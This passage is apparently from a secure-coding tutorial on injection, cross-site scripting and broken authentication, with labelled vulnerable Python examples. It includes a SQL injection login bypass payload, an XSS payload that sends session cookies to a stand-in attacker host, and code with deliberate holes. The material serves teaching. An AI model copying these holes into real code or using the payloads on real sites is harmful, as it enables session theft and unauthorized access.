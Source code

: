**Injection Attacks: The Most Dangerous Vulnerability**

Injection attacks occur when untrusted data is sent to an interpreter as part of a command or query. The attacker's hostile data tricks the interpreter into executing unintended commands or accessing unauthorized data [1]. SQL injection is the most common form, but injection can also affect NoSQL databases, operating system commands, LDAP queries, and XML parsers.

Here's a classic example of vulnerable code:

```python
# VULNERABLE CODE - Never do this!
def authenticate_user(username, password):
    # Directly inserting user input into SQL query
    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    cursor.execute(query)
    return cursor.fetchone()

# An attacker could input: username = "admin' --"
# This creates the query: SELECT * FROM users WHERE username = 'admin' --' AND password = ''
# The -- comments out the password check, granting access without authentication
```

This code is dangerous because it treats user input as trusted SQL code. An attacker can inject SQL syntax that changes the query's logic entirely. The `--` sequence comments out the rest of the query, bypassing password verification [3].

**Cross-Site Scripting (XSS): Injecting Malicious Scripts**

XSS vulnerabilities allow attackers to inject malicious JavaScript into web pages viewed by other users. When your application displays user-generated content without proper encoding, attackers can steal session cookies, redirect users to phishing sites, or modify page content [1].

```python
# VULNERABLE CODE - Displays user input without encoding
from flask import Flask, request

@app.route('/comment')
def show_comment():
    user_comment = request.args.get('comment')
    # Directly inserting user input into HTML
    return f"<div>User said: {user_comment}</div>"

# An attacker could submit: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
# This script executes in victims' browsers, sending their session cookies to the attacker
```

**Broken Authentication and Session Management**

Authentication vulnerabilities occur when applications implement login, session management, or password recovery incorrectly. Common mistakes include storing passwords in plain text, using weak session IDs, or failing to invalidate sessions after logout [2].

```python
# VULNERABLE CODE - Storing passwords in plain text
def create_user(username, password):
    # Never store passwords directly!
    query = "INSERT INTO users (username, password) VALUES (?, ?)"
    cursor.execute(query, (username, password))
    
# If the database is compromised, all passwords are immediately exposed
# Attackers can use these credentials on other sites (credential stuffing)
```
